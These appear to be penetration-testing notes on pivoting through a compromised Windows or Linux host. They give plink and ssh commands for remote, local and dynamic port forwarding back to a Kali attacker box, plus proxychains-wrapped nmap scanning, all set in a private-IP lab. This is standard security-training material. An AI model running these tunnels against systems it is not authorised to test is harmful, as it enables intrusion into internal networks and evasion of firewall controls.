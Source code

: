 
The Attacking Box (Kali Linux)   
IP: 192.168.1.16    

The pivot host (Windows XP) or linux     
User: lowuser   
FIRST IP: 192.168.1.30     
SECOND IP: 10.0.0.2    

Web server    
IP: 10.0.0.10   
Netmask: 255.0.0.0   

# Port Forwarding
 
Plink.exe is Windows binary for ssh can be found at:   
`/usr/share/windows-resources/binaries/plink.exe`   

### Remote Forwarding

Goal: To get to server at 10.0.0.10

From Target   
`plink -P 22 -C -R 127.0.0.1:4444:10.0.0.10:80 root@192.168.1.16`   
`ssh -p 22  -R 127.0.0.1:4444:10.0.0.10:80 root@192.168.1.16`

From Kali   
`curl 127.0.0.1:4444`

### Local Forwarding

Firewall rule blocking 3389

From Target   
`plink -P 22 -C -L 192.168.1.30:3390:192.168.1.30:3389 root@192.168.1.16`   
`ssh -p 22 -L 192.168.1.30:3390:192.168.1.30:3389 root@192.168.1.16`

From Kali   
`rdesktop 192.168.1.30:3390`

Other Local Forwarding methods   

From Kali   
`ssh -f -N -L 3390:10.0.0.10:3389 lowuser@192.168.1.30`   
`rdesktop localhost:3390`


### Dynamic Forwarding

Firewall only allows inbound port 2222 and 80

From target    
`plink -P 22 -N -C -R 2222:127.0.0.1:22 root@192.168.1.16`    
`ssh -f -N -R 2222:127.0.0.1:22 root@192.168.1.16`

From Kali   
`ssh -f -N -D 127.0.0.1:8080 -p 2222 lowuser@127.0.0.1`

`vi /etc/proxychains.conf`   
`socks4   127.0.0.1   8080`

`proxychains nmap -sT -Pn <IP>`

Other Dynamic Forwarding   

From Kali   
`ssh -f -N -D 8080 lowuser@192.168.1.30`

### Other tools

HTTPTunnel   

stunnel 

socat

Reference:   
https://www.cybrary.it/0p3n/pivot-network-port-forwardingredirection-hands-look/   
https://technostuff.blogspot.com/2008/10/some-useful-socat-commands.html    
